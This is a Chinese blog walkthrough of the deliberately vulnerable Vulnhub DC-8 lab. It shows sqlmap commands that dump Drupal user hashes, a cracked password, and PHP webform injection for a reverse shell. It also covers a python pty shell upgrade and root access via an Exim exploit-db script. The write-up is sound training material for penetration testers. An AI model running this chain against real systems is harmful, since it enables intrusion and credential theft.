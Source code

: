 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Zc4PtihNMrGgCUmOti_lhg)

说明：Vulnhub 是一个渗透测试实战网站，提供了许多带有漏洞的渗透测试靶机下载。适合初学者学习，实践。DC-8 是本系列最后一幕，全程只有一个 falg，获取 root 权限，以下内容是自身复现的过程，总结记录下来，如有不足请多多指教。

下载地址：

Download: http://www.five86.com/downloads/DC-8.zip

  
目标机 IP 地址：192.168.5.143  
攻击机 kali IP 地址：192.168.5.135

arp-scan -l 进行主机查找。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2yEBNicRM489ls8fRJRMFx5bCoBOVISnlzax717ptvQz5G8biaGv0X9icg/640?wx_fmt=png)

nmap -sS -sV -p- 192.168.5.143  端口扫描。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2IRZy8cGFp4NWJ5rLBkibc2ISh1Ys1icxf4q759flialEIM803WyTvFhwg/640?wx_fmt=png)

与 DC-7 一样后台同样使用了 Drupal CMS。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2oBech8icGux4ZibpO0BVMZ58erqBo3Crf9HHgHAFIGXIW0Mhiaj48O2Jg/640?wx_fmt=png)

web 版本详情。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2h6zLTiaRAdB975JSPIovKaOzjfjxu5rGXcOWr2MZKVvwtSvtLvCOX2A/640?wx_fmt=png)

目录爆破发现：

http://192.168.5.143/robots.txt，访问页面中提示了一些路径。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xTg6PiabUXzsjoibEYugU0CNRVNXqbibASqo89u3BHeiaksIKWCe2AuBPpQ/640?wx_fmt=png)

发现注入点，点击 Details。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xSdn9KwLMZ2WQGgx4ciaWN7TwpyV8If8sC2U7RIaIgxwt2ibfVpb6dWjQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xHxgaOFL7Sx5FDZt2mrTODtzleXdia1WQmxI2Bu9W4YPWHdfmB9aWreQ/640?wx_fmt=png)

数字型注入，sqlmap 跑一波。爆出数据库。

```
sqlmap -u "http://192.168.5.143/?nid=1" --dbs
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xBra7jczrCJDvYuCe9CG0MTUmkwxaHJIyoQg4vS6fnX8Jz0BvVUSyhA/640?wx_fmt=png)

查看 d7db 数据库的所有的表，然后看一下 users 表中的所有字段。

```
sqlmap -u "http://192.168.5.143/?nid=1" -D d7db --tables
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3x7w4iaX7C939ej3RRX2JjqmZQicIPZxYwApdt0uhzOUXaz7w22Iqibbia7g/640?wx_fmt=png)

```
sqlmap -u "http://192.168.5.143/?nid=1" -D "d7db"  -T "users" --columns
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xC6sQefzRT6ibJ3y1tp3cRPsA7Vpc6hv2nrbnDPNUBhPBMVT85fQBVPw/640?wx_fmt=png)  

查看 name 字段与 pass 字段，获取用户与密码。

admin/$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z

john/$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF

```
sqlmap -u "http://192.168.5.143/?nid=1" -D "d7db"  -T "users" -C  "name,pass" --dump
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xY4IlGKX9pPseavjR8nReBpYAQoibJtLQsDnrYVr1TAZq9LlQ2YbLkDA/640?wx_fmt=png)

将 admin，john 以及他们加密的密码分别进行保存，使用 john 工具进行解密。

john/turtle

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xp3qQv4ow2a4vbfWNC7dJYtGMtbXjWXfYIWviawMTeNcTgTkubdfiadAw/640?wx_fmt=png)

访问登陆页面登陆后台。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xwIO1GFS9UrromfDyo3sh1ycZUrSy4LBUjNydQ5ts9tnB6tpSibpjCbg/640?wx_fmt=png)

进入后台后，根据 DC7 的渗透流程，可能会存在插入 php 代码的地方。不出所料如图所示。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xMiaIMRwjU3nQtGqXCjPeLJ3CyRL4LDazAV3l2bLLMkJPvaO1cryAAicQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xftdACVLhbCuDM2WWYF7U1klDqsOgCRFE3OGPAwDHPgXbMfJ482aD4w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3x9F3SGKOe8Y0VqNTkB0fXvMEfpicXOukF0BrGRwAGkLKhtGB6eQuuwPg/640?wx_fmt=png)

编辑好设置信息后发邮件才可触发。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xDq4c0eVHzEoRVrB0hmsEfX3BHuMScBpx3IwzyXnL2n3vUFicrbZuChQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xdJkibsdQtib3IoaZa48WUTkXxgqPEJt2C4xqKPglNlhDfNMbkUTMRBpA/640?wx_fmt=png)

我们直接反弹 shell。本地监听 7777。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xkfibreRAb3KuLwSm00k8xdGNDCZib0gSlyZibzjcbm1icKxcmlF96AiasSA/640?wx_fmt=png)

有个坑.... 在此处，先写上任意字符，然后在写 php 代码才行，还有就是上来不要着急编辑，先设置好 Text format 。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xE5mG1mNKbibMBBREwQpqezH3BPxw9yicG016heAZzY34ibjZgpqJjDKlw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xOULcaBAO6ZbqJJhTSLGIu7d2oB4Z3bgFfFYc34UQb3EibJqIzzzjR4g/640?wx_fmt=png)

切换交互式 shell。

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

查找符合权限的文件。  

```
find / -perm -u=s -type f 2>/tmp/null
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xCeX4ibpibI3O3rqxXH7oUXBWMg1gDC040z7TJH0lI5TiaPwFgicbD07Q9A/640?wx_fmt=png)

发现 exim4 是可以用来提权的。  

searchsploit  exim 一下，查看可以利用的漏洞。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xicQA2I6tgbfwx3KjPjMOwjpjdhrKOKd0YtrNbEj0XAA6WUb7RmEKYPA/640?wx_fmt=png)  

查看了一下版本信息，对照漏洞表选择利用方式。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3x1epm0h8dpzm5UfXkBWhaLSibL64QezibwHvXvkGdePCk5w3O0YTjib0qw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3x7zhQiby6FguYOSrtzHmrSckXZlbcYfxroxBM9GJQq8WOEoDahl5GB0g/640?wx_fmt=png)

该脚本有两种利用规则，分别为：Usage (setuid method) 、Usage (netcat method) 详情参照该链接。

```
https://www.exploit-db.com/exploits/46996
```

将脚本: set ff=unix 一下然后保存，脚本改名为 dc8.sh 上传到攻击机中。根据脚本中的使用方式，进行提权。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xGMeT9q7ibLhkCSRTzn37wUqrrLoSbvvlicjaDqyFXsfIKKIdFAPaV1LQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xYtOKhuibUCkEjUJphWicqOibayKUSN9m2GHq0kaDAqqiaWHcxmoZQgia6XA/640?wx_fmt=png)

tmp 可任意读写，将文件下载到 tmp 下执行。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xiawo440daTDv9B1MklMJTTVXjficVRD3z2Q0BjU88tfpo1icthueRCbTg/640?wx_fmt=png)

开启 Apache，攻击者直接将脚本下载到 tmp 下。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xH4kCicWmzUqRACA8Dibh101a7qo0E2Gd5efVHRBzHmzp8ibEkedicJUv4A/640?wx_fmt=png)

./dc8.sh -m netcat 提权成功。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3xhyIwPdK9trWMaA7HNoNrjgcjOBFI9nkxRlIN2puy7icz2pBJfMF8PMw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26a5Lx81JTuicnZaN1u5ZE3x4icnxLzoNN5ns5VE3F46NsJsENCKBBscAJzc5lic1vDUHg5okgQNI0qA/640?wx_fmt=png)

DC 系列将要告一段落，但是学习的道路永无止境。句号既是结束，又是起笔的开始，享受过程，充实人生。

我从来没有长大, 但我从来没有停止过成长 

                                                                               ——阿瑟 · 克拉克

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)